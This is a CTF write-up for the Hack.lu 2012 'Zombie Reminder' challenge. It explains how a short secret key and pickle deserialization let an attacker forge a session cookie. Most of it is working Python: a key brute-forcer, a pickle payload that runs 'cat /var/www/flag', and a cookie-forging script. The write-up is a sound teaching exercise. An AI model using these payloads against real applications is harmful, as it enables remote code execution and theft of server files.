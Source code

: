 ```yaml
---
title: '[writeup] Hacklu 2012 &#8211; Challenge #19 &#8211; Zombie Reminder &#8211; (200)'
author: pdah
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:0:{}'
tweetbackscheck:
  - 1408358963
categories:
  - 'CTF - CLGT Crew'
tags:
  - '2012'
  - CTF
  - Hacklu
  - Python Pickle
---
```

> 19 &#8211; Zombie Reminder  
> Zombies love brains. But zombies forget, so they have a tool where they can enter the location of brains they found. In a heroic mission someone managed to obtain both the source code and the information that a critical file can be found at &#8216;/var/www/flag&#8217;.  
> Your mission is to obtain the contents of this file by any means and avenge your fallen friend!  
> Service: https://ctf.fluxfingers.net:2073/  
> Source: https://ctf.fluxfingers.net/challenges/zombie_reminder.py

This challenge is a web application returning an arbitrary text that inputed by you previously. Your input is stored in &#8220;location&#8221; cookie with format of &#8220;**<hash\_digest>!<encoded\_input>**&#8221; where:

*   encoded\_input = base64\_encode(pickle.dumps(your_input))
*   hash\_digest = sha256(encoded\_input+secret_key)
  
When you go back to the main page, if a valid cookie is set the application will load the pickle object from cookie and print it out.</p> <pre class="brush: plain; title: ; notranslate" title="">location = pickle.loads(b64d(location))
</pre>

The purpose of hash\_digest is to ensure that your\_input is a **string** submitted through challenge&#8217;s web form. However this design has 2 major flaws:

*   secret_key is too short (5 characters)
*   pickle has a known security issue (<http://nadiana.com/python-pickle-insecure>)

We submit a random string (let&#8217;s say &#8220;test&#8221;) and look at the cookie:  
location=&#8221;04b098d726754c810c65595a82dd42a9564ce332fd51c0da2a43bbdd42a91f37!VnRlc3QKcDAKLg==&#8221;

We use this script to bruteforce the secret key :

<pre class="brush: plain; title: ; notranslate" title="">#!/usr/bin/env python

import multiprocessing
from hashlib import *
import string
import sys

s = string.ascii_letters + string.digits
location = "VnRlc3QKcDAKLg=="
digest = "04b098d726754c810c65595a82dd42a9564ce332fd51c0da2a43bbdd42a91f37"

print len(s)

WORKERS    = 8

def worker(start,end):

    for i1 in s[start:end]:
        for i2 in s:
            for i3 in s:
                for i4 in s:
                    for i5 in s:
                        secret  = i1+i2+i3+i4+i5

                        if sha256("%s%s" % (location, secret)).hexdigest() == digest:
                            print "*******", secret
                            sys.exit(0)

def main():

    ps = []
    for i in range(WORKERS):
        if i == WORKERS -1:
            tmp = multiprocessing.Process(target=worker, args=(i*(len(s)/WORKERS),len(s),))
        else:
            tmp = multiprocessing.Process(target=worker, args=(i*(len(s)/WORKERS),(i+1)*(len(s)/WORKERS),))
        tmp.start()
        ps.append(tmp)

    for p in ps:
        p.join()

    return jobs.empty()

if __name__ == '__main__':
    main()
</pre>

After a few minutes we managed to find the key **oIqxe**. Our next task is to build a pickled representation of a python code object, the goal is to execute a code similar to this when pickle.loads() is called:

<pre class="brush: plain; title: ; notranslate" title="">__import__("commands").getoutput("cat /var/www/flag")
</pre>

This code is used to generate such serialized string:

<pre class="brush: plain; title: ; notranslate" title="">import pickle, new

def nasty(module, function, *args):
        return pickle.dumps(new.classobj(function, (), {'__getinitargs__': lambda self, arg = args: arg, '__module__': module}) ())

t = nasty("commands", "getoutput", "cat /var/www/flag")

print repr(t)

# Output: "(S'cat /var/www/flag'np1nicommandsngetoutputnp2n(dp3nb."
</pre>

Now we have everything to get the flag, time to build a valid cookie:

<pre class="brush: plain; title: ; notranslate" title="">from hashlib import sha256
import base64
b64e=base64.b64encode

secret = 'oIqxe'
location = b64e("(S'cat /var/www/flag'np1nicommandsngetoutputnp2n(dp3nb.")

cookie = "%s!%s" % (sha256("%s%s" % (location, secret)).hexdigest(), location)

print cookie
</pre>

Place this cookie into your browser (don&#8217;t ask us how to do that lolz) and refresh, the flag will be right on the screen.

> Hello, here is what we remember for you. If you want to change, delete or extend it, click below  
> 08ac40047dae3f6a36471d768dfcb1b7a8e18fb8